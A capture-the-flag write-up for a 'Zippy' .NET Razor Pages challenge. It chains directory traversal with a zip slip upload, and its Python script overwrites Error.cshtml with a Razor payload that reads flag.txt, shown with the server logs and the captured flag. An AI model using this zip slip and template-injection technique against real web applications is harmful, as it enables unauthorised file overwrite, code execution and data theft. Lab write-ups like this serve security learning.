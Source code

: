 ## Zippy

Opening the webapp we are greeted with a site seems to take zip files, unpack them, and allow users to view directories only. We can view the /**Browse** page and quickly find that input of `../` allows file path traversal, and we can see flag.txt contained a level above our .current directory.
However, we cannot view or trigger these files/pages. So the files are not available for download or viewing by URL. So we are likely limited to viewing certain web pages.We likely need to find an RCE exploit. But we can enumerate further and find that web pages are located in `../Pages`. But even more interesting is the fact we can access `../../root`. So this web app must have root privs already. Bad idea.

Enumerating further will lead eventually to the /**About** and /**Log** pages. Now at first there is not much in Logs, but the About section states something interesting:
#### Application Info
- Version: 1.0.0
- Framework: .NET 6.0
- Powered by Razor Pages | **Now with runtime compilation!**
- 
**Razor Pages**. Interesting, we did find out the web pages are .cshtml. A quick search online and I quickly found a helpful [resource](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/). It appears that Razor Pages are vulnerable to simple C# injection. But where to inject? We do not have a text box to input a payload. So let's keep looking around.

Let us try to see what happens if we upload a zip on **/Upload** (asdf for ID and Name)
`File uploaded successfully to /app/wwwroot/uploads/asdf for account asdf (ID: asdf)`
Good to know. Let's check the logs. *Snipped the timestamps.*
```
Saving uploaded file to /app/wwwroot/uploads/asdf              
Saving uploaded ZIP file to /app/wwwroot/uploads/asdf/test.zip              
Extracting ZIP file /app/wwwroot/uploads/asdf/test.zip without path traversal checks.              
Extracting file to /app/wwwroot/uploads/asdf/test.txt
```
***WITHOUT*** traversal checks eh? Well with the LFI we found and the name Zippy, we can try to do a zip slip exploit with a payload in C# like we saw in that PoC, tailored to our needs. Honestly can probably revshell, but instead of portfwding and all that, why not try to view it on the app itself? After checking the full path with the /**Browse** page, it appears the web pages themselves are .cshtml files located in `/app/Pages` and we can see familiar ones like About/Browse/Upload/Error/etc. We can certainly access these.

SO we now have a plan. 
1. Zip slip a Razor Page payload in C#
2. Force app to unzip injected cshtml in specific location
3. I decided to try and replace Error.cshtml as it would not affect other functions we are using. 
4. All of this together explains the script I made, which generates the necessary zip slip files with our payload, then extracts our malicious page where Error is located, replacing it with our own version.
So lets read the flag.txt, and put it on the mf web page. EZ.
```python
import zipfile

zip_filename = 'smolW33n3r.zip'
gl0ryh0le = '../../../../app/Pages/Error.cshtml' # An accessible web page is replaced with ours

gh0st_l0ad = '''
@page
@{
    // Reads flag.txt
    var flagContent = System.IO.File.ReadAllText("/app/flag.txt");
}
<center>
<h1>smol indeed</h1>
<p>@flagContent</p>
</center>
'''
# ur load goes in the hole
with zipfile.ZipFile(zip_filename, 'w') as zipf:
    zipf.writestr(gl0ryh0le, gh0st_l0ad)

print(f"Created {zip_filename} successfully.")
```
Upload the generated zip. Then check the logs:
```powershell
Saving uploaded file to /app/wwwroot/uploads/asdf
Saving uploaded ZIP file to /app/wwwroot/uploads/asdf/smolW33n3r.zip
Extracting ZIP file /app/wwwroot/uploads/asdf/smolW33n3r.zip without path traversal checks.
Extracting file to /app/Pages/Error.cshtml
```
Well now **THAT** is looking good. Let's now try to access /**Error**:

**smol indeed**
`flag{a074eb7973c4c718790baefc096654dd}`
